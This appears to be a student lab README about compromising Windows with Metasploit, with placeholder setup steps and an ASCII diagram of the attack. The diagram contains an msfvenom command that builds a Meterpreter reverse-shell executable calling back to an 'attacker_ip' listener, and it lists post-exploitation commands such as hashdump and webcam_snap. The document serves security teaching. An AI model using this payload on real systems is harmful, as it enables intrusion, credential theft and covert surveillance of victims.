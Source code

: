 # NAME:Tharun Kumar V
# REGISTER NO: 212224240173
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
```